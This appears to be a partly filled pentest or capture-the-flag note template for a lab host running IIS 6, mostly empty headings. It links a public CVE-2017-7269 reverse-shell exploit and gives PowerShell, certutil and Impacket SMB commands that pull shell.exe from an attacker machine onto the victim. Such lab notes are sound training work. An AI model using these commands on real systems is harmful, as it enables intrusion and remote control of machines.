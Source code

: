 # Information gathering

## Port Scan

``` bash
10.10.10.14
```

## Service Enumerate

### Web Enumerate

### Service 2


## Password Crack
### john

### hydra


# Exploit

## Initial Foothold
```shellcode
https://raw.githubusercontent.com/k4u5h41/CVE-2017-7269/main/ii6_reverse_shell.py
```
### Exploit method

### Vulnerability Explanation

### Exp code or link

### Proof screen shot
![[Pasted image 20230201094837.png]]


## Lateral Movement
```
powershell (new-object System.Net.WebClient).DownloadFile('http://10.10.14.2:8888/shell.exe','c:\windows\system32\inetsrv\shell.exe')

certutil.exe -urlcache  -f http://10.10.14.2:8888/shell.exe shell.exe

```
### Exploit method

```
transfer file 
# SMB

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## Start Impacket SMB Server (With SMB2 Support)

`impacket-smbserver -smb2support server_name /var/www/html`

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## List Drives (Execute on Victim)

`net view \\192.168.0.1`

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## Copy Files (Execute on Victim)

`copy \\10.10.14.2\SERVER_NAME\shell.exe shell.exe`
```

### Exp code or link

### Proof screen shot


## Privilege Escalation

### Exploit method

### Exp code or link

### Proof screen shot